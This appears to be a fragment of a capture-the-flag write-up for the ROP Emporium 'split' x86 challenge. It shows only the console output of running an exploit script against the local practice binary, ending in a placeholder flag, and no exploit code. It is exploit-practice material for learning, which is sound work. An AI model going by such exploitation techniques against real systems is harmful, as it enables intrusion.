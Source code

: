 Let's run the exploit.

```
$ python exploit32.py 
[+] Starting local process './split32': pid 16511
[*] Switching to interactive mode
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
